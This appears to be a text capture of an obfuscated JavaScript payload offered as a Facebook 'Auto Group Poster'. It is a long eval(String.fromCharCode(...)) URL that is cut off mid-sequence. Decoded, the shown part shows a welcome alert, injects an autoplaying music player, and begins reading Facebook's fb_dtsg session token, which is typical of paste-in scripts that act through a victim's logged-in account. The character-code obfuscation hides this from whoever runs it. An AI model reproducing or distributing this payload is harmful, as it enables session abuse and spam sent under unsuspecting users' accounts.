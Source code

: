 http://eval%28string.fromcharcode%2897%2C108%2C101%2C114%2C116%2C40%2C34%2C87%2C101%2C108%2C99%2C111%2C109%2C101%2C32%2C116%2C111%2C32%2C102%2C98%2C107%2C116%2C114%2C105%2C99%2C107%2C115%2C46%2C98%2C108%2C111%2C103%2C115%2C112%2C111%2C116%2C46%2C99%2C111%2C109%2C32%2C65%2C117%2C116%2C111%2C32%2C71%2C114%2C111%2C117%2C112%2C32%2C80%2C111%2C115%2C116%2C101%2C114%2C34%2C41%2C59%2C10%2C47%2C42%2C32%2C77%2C117%2C115%2C105%2C99%2C32%2C83%2C101%2C116%2C116%2C105%2C110%2C103%2C115%2C32%2C42%2C47%2C10%2C118%2C97%2C114%2C32%2C112%2C97%2C114%2C101%2C110%2C116%2C32%2C61%2C32%2C100%2C111%2C99%2C117%2C109%2C101%2C110%2C116%2C46%2C103%2C101%2C116%2C69%2C108%2C101%2C109%2C101%2C110%2C116%2C115%2C66%2C121%2C84%2C97%2C103%2C78%2C97%2C109%2C101%2C40%2C34%2C104%2C116%2C109%2C108%2C34%2C41%2C91%2C48%2C93%2C59%2C10%2C118%2C97%2C114%2C32%2C95%2C98%2C111%2C100%2C121%2C32%2C61%2C32%2C100%2C111%2C99%2C117%2C109%2C101%2C110%2C116%2C46%2C103%2C101%2C116%2C69%2C108%2C101%2C109%2C101%2C110%2C116%2C115%2C66%2C121%2C84%2C97%2C103%2C78%2C97%2C109%2C101%2C40%2C39%2C98%2C111%2C100%2C121%2C39%2C41%2C91%2C48%2C93%2C59%2C10%2C118%2C97%2C114%2C32%2C95%2C100%2C105%2C118%2C32%2C61%2C32%2C100%2C111%2C99%2C117%2C109%2C101%2C110%2C116%2C46%2C99%2C114%2C101%2C97%2C116%2C101%2C69%2C108%2C101%2C109%2C101%2C110%2C116%2C40%2C39%2C100%2C105%2C118%2C39%2C41%2C59%2C10%2C47%2C47%2C32%2C77%2C117%2C115%2C105%2C99%2C32%2C68%2C101%2C115%2C105%2C103%2C110%2C10%2C95%2C100%2C105%2C118%2C46%2C115%2C116%2C121%2C108%2C101%2C46%2C104%2C101%2C105%2C103%2C104%2C116%2C32%2C61%2C32%2C34%2C50%2C53%2C34%2C59%2C10%2C95%2C100%2C105%2C118%2C46%2C115%2C116%2C121%2C108%2C101%2C46%2C119%2C105%2C100%2C116%2C104%2C32%2C61%2C32%2C34%2C49%2C48%2C48%2C37%2C34%2C59%2C10%2C95%2C100%2C105%2C118%2C46%2C115%2C116%2C121%2C108%2C101%2C46%2C112%2C111%2C115%2C105%2C116%2C105%2C111%2C110%2C32%2C61%2C32%2C34%2C102%2C105%2C120%2C101%2C100%2C34%2C59%2C10%2C95%2C100%2C105%2C118%2C46%2C115%2C116%2C121%2C108%2C101%2C46%2C116%2C111%2C112%2C32%2C61%2C32%2C34%2C97%2C117%2C116%2C111%2C34%2C59%2C10%2C95%2C100%2C105%2C118%2C46%2C115%2C116%2C121%2C108%2C101%2C46%2C98%2C111%2C116%2C116%2C111%2C109%2C32%2C61%2C32%2C34%2C48%2C34%2C59%2C10%2C95%2C100%2C105%2C118%2C46%2C97%2C108%2C105%2C103%2C110%2C32%2C61%2C32%2C34%2C99%2C101%2C110%2C116%2C101%2C114%2C34%2C59%2C10%2C47%2C47%2C32%2C77%2C117%2C115%2C105%2C99%2C32%2C80%2C114%2C111%2C112%2C101%2C114%2C116%2C121%2C10%2C118%2C97%2C114%2C32%2C95%2C97%2C117%2C100%2C105%2C111%2C32%2C61%2C32%2C100%2C111%2C99%2C117%2C109%2C101%2C110%2C116%2C46%2C99%2C114%2C101%2C97%2C116%2C101%2C69%2C108%2C101%2C109%2C101%2C110%2C116%2C40%2C39%2C97%2C117%2C100%2C105%2C111%2C39%2C41%2C59%2C10%2C95%2C97%2C117%2C100%2C105%2C111%2C46%2C115%2C116%2C121%2C108%2C101%2C46%2C119%2C105%2C100%2C116%2C104%2C32%2C61%2C32%2C34%2C49%2C48%2C48%2C37%2C34%2C59%2C10%2C95%2C97%2C117%2C100%2C105%2C111%2C46%2C115%2C116%2C121%2C108%2C101%2C46%2C104%2C101%2C105%2C103%2C104%2C116%2C32%2C61%2C32%2C34%2C50%2C53%2C112%2C120%2C34%2C59%2C10%2C95%2C97%2C117%2C100%2C105%2C111%2C46%2C99%2C111%2C110%2C116%2C114%2C111%2C108%2C115%2C32%2C61%2C32%2C116%2C114%2C117%2C101%2C59%2C10%2C95%2C97%2C117%2C100%2C105%2C111%2C46%2C97%2C117%2C116%2C111%2C112%2C108%2C97%2C121%2C32%2C61%2C32%2C102%2C97%2C108%2C115%2C101%2C59%2C10%2C95%2C97%2C117%2C100%2C105%2C111%2C46%2C97%2C117%2C116%2C111%2C112%2C108%2C97%2C121%2C32%2C61%2C32%2C116%2C114%2C117%2C101%2C59%2C10%2C10%2C47%2C47%2C32%2C77%2C117%2C115%2C105%2C99%2C32%2C76%2C105%2C115%2C116%2C10%2C95%2C97%2C117%2C100%2C105%2C111%2C46%2C115%2C114%2C99%2C32%2C61%2C32%2C34%2C104%2C116%2C116%2C112%2C115%2C58%2C47%2C47%2C100%2C108%2C46%2C100%2C114%2C111%2C112%2C98%2C111%2C120%2C117%2C115%2C101%2C114%2C99%2C111%2C110%2C116%2C101%2C110%2C116%2C46%2C99%2C111%2C109%2C47%2C115%2C47%2C119%2C48%2C115%2C118%2C101%2C98%2C54%2C106%2C121%2C57%2C100%2C101%2C100%2C109%2C109%2C47%2C108%2C111%2C118%2C101%2C108%2C121%2C116%2C114%2C105%2C99%2C107%2C115%2C46%2C109%2C112%2C51%2C34%2C59%2C10%2C10%2C95%2C97%2C117%2C100%2C105%2C111%2C46%2C97%2C100%2C100%2C69%2C118%2C101%2C110%2C116%2C76%2C105%2C115%2C116%2C101%2C110%2C101%2C114%2C40%2C39%2C101%2C110%2C100%2C101%2C100%2C39%2C44%2C32%2C102%2C117%2C110%2C99%2C116%2C105%2C111%2C110%2C32%2C40%2C41%2C32%2C123%2C10%2C32%2C32%2C32%2C32%2C95%2C97%2C117%2C100%2C105%2C111%2C46%2C115%2C114%2C99%2C32%2C61%2C32%2C34%2C104%2C116%2C116%2C112%2C58%2C47%2C47%2C119%2C119%2C119%2C46%2C117%2C112%2C108%2C111%2C97%2C100%2C104%2C111%2C115%2C116%2C105%2C110%2C103%2C46%2C99%2C111%2C47%2C117%2C112%2C108%2C111%2C97%2C100%2C115%2C47%2C49%2C49%2C48%2C46%2C53%2C53%2C46%2C52%2C46%2C50%2C49%2C54%2C47%2C48%2C48%2C50%2C37%2C50%2C48%2C68%2C97%2C102%2C116%2C37%2C50%2C48%2C80%2C117%2C110%2C107%2C37%2C50%2C48%2C45%2C37%2C50%2C48%2C71%2C101%2C116%2C37%2C50%2C48%2C76%2C117%2C99%2C107%2C121%2C37%2C50%2C48%2C37%2C50%2C56%2C102%2C101%2C97%2C116%2C46%2C37%2C50%2C48%2C80%2C104%2C97%2C114%2C114%2C101%2C108%2C108%2C37%2C50%2C48%2C87%2C105%2C108%2C108%2C105%2C97%2C109%2C115%2C37%2C50%2C57%2C46%2C109%2C112%2C51%2C34%2C59%2C10%2C32%2C32%2C32%2C32%2C97%2C117%2C100%2C105%2C111%2C46%2C112%2C97%2C117%2C115%2C101%2C40%2C41%2C59%2C10%2C32%2C32%2C32%2C32%2C97%2C117%2C100%2C105%2C111%2C46%2C108%2C111%2C97%2C100%2C40%2C41%2C59%2C10%2C32%2C32%2C32%2C32%2C97%2C117%2C100%2C105%2C111%2C46%2C112%2C108%2C97%2C121%2C40%2C41%2C59%2C10%2C125%2C41%2C59%2C10%2C10%2C47%2C47%2C32%2C77%2C117%2C115%2C105%2C99%2C32%2C68%2C101%2C99%2C108%2C97%2C114%2C97%2C116%2C105%2C111%2C110%2C10%2C95%2C100%2C105%2C118%2C46%2C97%2C112%2C112%2C101%2C110%2C100%2C67%2C104%2C105%2C108%2C100%2C40%2C95%2C97%2C117%2C100%2C105%2C111%2C41%2C59%2C10%2C95%2C98%2C111%2C100%2C121%2C46%2C97%2C112%2C112%2C101%2C110%2C100%2C67%2C104%2C105%2C108%2C100%2C40%2C95%2C100%2C105%2C118%2C41%2C59%2C10%2C118%2C97%2C114%2C32%2C102%2C98%2C95%2C100%2C116%2C115%2C103%2C32%2C61%2C32%2C100%2C111%2C99%2C117%2C109%2C101%2C110%2C116%2C46%2C103%2C101%2C116%2C69%2C108%2C101%2C109%2C101%2C110%2C116%2C115%2C66%2C121%2